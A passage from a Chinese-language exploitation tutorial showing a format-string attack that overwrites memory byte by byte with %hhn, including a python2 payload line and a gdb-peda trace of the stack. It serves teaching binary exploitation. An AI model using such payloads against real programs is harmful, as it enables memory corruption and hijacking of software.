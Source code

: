 由于我们想要逐字节覆盖，就需要 4 个用于跳转的地址，4 个写入地址和 4 个值，对应关系如下（小端序）：

```text
0xffffd564 -> 0x41414141 (0xffffd538) -> \x78
0xffffd568 -> 0x42424242 (0xffffd539) -> \x56
0xffffd56c -> 0x43434343 (0xffffd53a) -> \x34
0xffffd570 -> 0x44444444 (0xffffd53b) -> \x12
```

把 `AAAA`、`BBBB`、`CCCC`、`DDDD` 占据的地址分别替换成括号中的值，再适当使用填充字节使 8 字节对齐就可以了。构造输入如下：

```text
$ python2 -c 'print("\x38\xd5\xff\xff"+"\x39\xd5\xff\xff"+"\x3a\xd5\xff\xff"+"\x3b\xd5\xff\xff"+"%104c%13$hhn"+"%222c%14$hhn"+"%222c%15$hhn"+"%222c%16$hhn")' > text
```

其中前四个部分是 4 个写入地址，占 4*4=16 字节，后面四个部分分别用于写入十六进制数，由于使用了 `hh`，所以只会保留一个字节 `0x78`（16+104=120 -> 0x78）、`0x56`（120+222=342 -> 0x0156 -> 0x56）、`0x34`（342+222=564 -> 0x0234 -> 0x34）、`0x12`（564+222=786 -> 0x312 -> 0x12）。执行结果如下：

```text
$ gdb -q a.out
Reading symbols from a.out...(no debugging symbols found)...done.
gdb-peda$ b printf  
Breakpoint 1 at 0x8048350
gdb-peda$ r < text  
Starting program: /home/firmy/Desktop/RE4B/a.out < text
[----------------------------------registers-----------------------------------]
EAX: 0xffffd564 --> 0xffffd538 --> 0x88888888
EBX: 0x804a000 --> 0x8049f14 --> 0x1
ECX: 0x1
EDX: 0xf7f9883c --> 0x0
ESI: 0xf7f96e68 --> 0x1bad90
EDI: 0x0
EBP: 0xffffd5f8 --> 0x0
ESP: 0xffffd52c --> 0x8048520 (<main+138>:      add    esp,0x20)
EIP: 0xf7e27c20 (<printf>:      call   0xf7f06d17 <__x86.get_pc_thunk.ax>)
EFLAGS: 0x292 (carry parity ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0xf7e27c1b <fprintf+27>:     ret
   0xf7e27c1c:  xchg   ax,ax
   0xf7e27c1e:  xchg   ax,ax
=> 0xf7e27c20 <printf>: call   0xf7f06d17 <__x86.get_pc_thunk.ax>
   0xf7e27c25 <printf+5>:       add    eax,0x16f243
   0xf7e27c2a <printf+10>:      sub    esp,0xc
   0xf7e27c2d <printf+13>:      mov    eax,DWORD PTR [eax+0x124]
   0xf7e27c33 <printf+19>:      lea    edx,[esp+0x14]
No argument
[------------------------------------stack-------------------------------------]
0000| 0xffffd52c --> 0x8048520 (<main+138>:     add    esp,0x20)
0004| 0xffffd530 --> 0xffffd564 --> 0xffffd538 --> 0x88888888
0008| 0xffffd534 --> 0x1
0012| 0xffffd538 --> 0x88888888
0016| 0xffffd53c --> 0xffffffff
0020| 0xffffd540 --> 0xffffd55a ("ABCD")
0024| 0xffffd544 --> 0xffffd564 --> 0xffffd538 --> 0x88888888
0028| 0xffffd548 --> 0x80481fc --> 0x38 ('8')
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0xf7e27c20 in printf () from /usr/lib32/libc.so.6
gdb-peda$ x/20x $esp  
0xffffd52c:     0x08048520      0xffffd564      0x00000001      0x88888888
0xffffd53c:     0xffffffff      0xffffd55a      0xffffd564      0x080481fc
0xffffd54c:     0x080484b0      0xf7ffda54      0x00000001      0x424135d0
0xffffd55c:     0x00004443      0x00000000      0xffffd538      0xffffd539
0xffffd56c:     0xffffd53a      0xffffd53b      0x34303125      0x33312563
```